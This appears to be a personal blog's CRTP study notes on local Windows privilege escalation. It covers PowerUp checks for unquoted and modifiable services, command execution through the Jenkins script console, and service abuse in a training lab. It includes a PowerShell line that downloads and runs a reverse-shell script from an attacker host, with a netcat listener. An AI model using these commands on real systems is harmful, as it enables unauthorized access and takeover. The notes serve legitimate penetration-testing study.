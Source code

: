 ```yaml
---
title: "2 - Win Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser3.jpg
  overlay_image: /assets/images/main/header1.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Unquoted Paths and Modifiable Services"
description: "Unquoted Paths and Modifiable Services"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows 
toc: true
---
```


# Win Privesc - Local

> The material of CRTP about Local Privesc is not great

**There are various ways of locally escalating privileges on Windows box**:
```powershell
– Missing patches
– Automated deployment and AutoLogon passwords in clear text
– AlwaysInstallElevated (Any user can run MSI as SYSTEM)
– Misconfigured Services
– DLL Hijacking and more
– NTLM Relaying a.k.a. Won't Fix
```

**We can use below tools for complete coverage**:

[PowerSploit - Privesc Module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[Privesc on GitHub](https://github.com/enjoiz/Privesc)

[winPEAS in PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)


## Services Issues using PowerUp

**Get services with unquoted paths and a space in their name**:
```powershell
Get-ServiceUnquoted -Verbose
```

**Get services where the current user can write to its binary path or change arguments to the binary**:
```powershell
Get-ModifiableServiceFile -Verbose
```

**Get the services whose configuration current user can modify**:
```powershell
Get-ModifiableService -Verbose
```

**Run all checks with automated tools** :
```powershell
# PowerUp:
Invoke-AllChecks

# Privesc:
Invoke-PrivEsc

# PEASS-ng:
winPEASx64.exe
```

## Feature Abuse
```
- If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script
- In the script console, Groovy scripts could be executed.
```

```powershell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '
[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell -c <command>
```

> Again, you could download and execute scripts, run encoded scripts and more.


**Learning Objective 5**:

- Exploit a service and elevate privileges to local administrator.
- Identify a machine in the domain where ur user has local administrative access.
- Using privileges of a user on Jenkins get admin privileges on another server.


**[easy to detect]**
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Username dcorp\studentx -Verbose
net localgroup Administrators
```

**[easy to detect - noise]**
```powershell
Find-PSRemotingLocalAdminAccess
```

```powershell
on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443
on Attacker> host the file in a webserver - example: HFS - HTTP File Server 
```

disable firewall or add exception
```powershell
on Attacker> netcat-win32-1.12.exe -lvp 443
```

